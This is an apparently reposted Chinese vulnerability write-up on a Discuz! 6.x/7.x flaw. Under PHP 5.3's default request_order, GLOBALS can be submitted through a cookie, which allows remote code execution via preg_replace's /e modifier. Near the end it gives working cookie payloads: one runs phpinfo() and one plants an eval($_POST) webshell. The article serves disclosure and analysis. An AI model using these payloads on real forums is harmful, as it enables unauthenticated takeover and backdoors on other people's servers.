 > 原文链接: https://www.anquanke.com//post/id/82316 


# Discuz! 6.x/7.x 全局变量防御绕过导致命令执行


                                阅读量   
                                **151124**
                            
                        |
                        
                                                                                    



## 漏洞概述：

由于php5.3.x版本里php.ini的设置里request_order默认值为GP，导致Discuz! 6.x/7.x 全局变量防御绕过漏洞。

## 漏洞分析：

```
include/global.func.php代码里：
function daddslashes($string, $force = 0) `{`
    !defined('MAGIC_QUOTES_GPC') &amp;&amp; define('MAGIC_QUOTES_GPC', get_magic_quotes_gpc());
    if(!MAGIC_QUOTES_GPC || $force) `{`
        if(is_array($string)) `{`
            foreach($string as $key =&gt; $val) `{`
                $string[$key] = daddslashes($val, $force);
            `}`
        `}` else `{`
            $string = addslashes($string);
        `}`
    `}`
    return $string;
`}`
include/common.inc.php里：
foreach(array('_COOKIE', '_POST', '_GET') as $_request) `{`
    foreach($$_request as $_key =&gt; $_value) `{`
        $_key`{`0`}` != '_' &amp;&amp; $$_key = daddslashes($_value);
    `}`
`}`
```

模拟register_globals功能的代码,在GPC为off时会调用addslashes()函数处理变量值,但是如果直接使<br>
用$_GET/$_POST/$_COOKIE这样的变量,这个就不起作用了,然而dz的源码里直接使用$_GET/$_POST/$_COOKIE的地<br>
方很少,存在漏洞的地方更加少:(

不过还有其他的绕过方法,在register_globals=on下通过提交GLOBALS变量就可以绕过上面的代码了.为了防止这种情况,dz中有如下代码:

```
if (isset($_REQUEST['GLOBALS']) OR isset($_FILES['GLOBALS'])) `{`
    exit('Request tainting attempted.');
`}`
```

这样就没法提交GLOBALS变量了么？

$_REQUEST这个超全局变量的值受php.ini中request_order的影响,在最新的php5.3.x系列<br>
中,request_order默认值为GP,也就是说默认配置下$_REQUEST只包含$_GET和$_POST,而不包括$_COOKIE,那么我<br>
们就可以通过COOKIE来提交GLOBALS变量了:)

[![](https://p4.ssl.qhimg.com/t01d870b131f7259e0a.jpg)](https://p4.ssl.qhimg.com/t01d870b131f7259e0a.jpg)

## 漏洞利用

## include/discuzcode.func.php

```
function discuzcode($message, $smileyoff, $bbcodeoff, $htmlon = 0, $allowsmilies = 1, $allowbbcode = 1, $allowimgcode =
1, $allowhtml = 0, $jammer = 0, $parsetype = '0', $authorid = '0', $allowmediacode = '0', $pid = 0) `{`
global $discuzcodes, $credits, $tid, $discuz_uid, $highlight, $maxsmilies, $db, $tablepre, $hideattach, $allowat
tachurl;
if($parsetype != 1 &amp;&amp; !$bbcodeoff &amp;&amp; $allowbbcode &amp;&amp; (strpos($message, '[/code]') || strpos($message, '[/CODE]')
) !== FALSE) `{`
$message = preg_replace("/s?[code](.+?)[/code]s?/ies", "codedisp('\1')", $message);
`}`
$msglower = strtolower($message);
//$htmlon = $htmlon &amp;&amp; $allowhtml ? 1 : 0;
if(!$htmlon) `{`
$message = $jammer ? preg_replace("/rn|n|r/e", "jammer()", dhtmlspecialchars($message)) : dhtmlspeci
alchars($message);
`}`
if(!$smileyoff &amp;&amp; $allowsmilies &amp;&amp; !empty($GLOBALS['_DCACHE']['smilies']) &amp;&amp; is_array($GLOBALS['_DCACHE']['smili
es'])) `{`
if(!$discuzcodes['smiliesreplaced']) `{`
foreach($GLOBALS['_DCACHE']['smilies']['replacearray'] AS $key =&gt; $smiley) `{`
$GLOBALS['_DCACHE']['smilies']['replacearray'][$key] = '&lt;img src="images/smilies/'.$GLOB
ALS['_DCACHE']['smileytypes'][$GLOBALS['_DCACHE']['smilies']['typearray'][$key]]['directory'].'/'.$smiley.'" smilieid="'
.$key.'" border="0" alt="" /&gt;';
`}`
$discuzcodes['smiliesreplaced'] = 1;
`}`
$message = preg_replace($GLOBALS['_DCACHE']['smilies']['searcharray'], $GLOBALS['_DCACHE']['smilies']['r
eplacearray'], $message, $maxsmilies);
`}`
```

注意到：

```
$message = preg_replace($GLOBALS['_DCACHE']['smilies']['searcharray'], 
$GLOBALS['_DCACHE']['smilies']['replacearray'], $message, $maxsmilies);
```

请求中Cookie带

GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();<br> 即可执行phpinfo。<br> GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval($_POST[c])%3B;<br> 即一句话木马。

此后门漏洞十分隐蔽，不容易发现。

## 利用条件：

1.discuz 6.x / 7.x

2.request_order默认值为GP

## 参考地址：

http://www.80vul.com/dzvul/sodb/19/sodb-2010-01.txt

Discuz!某两个版本前台产品命令执行（无需登录）

http://www.wooyun.org/bugs/wooyun-2010-080723


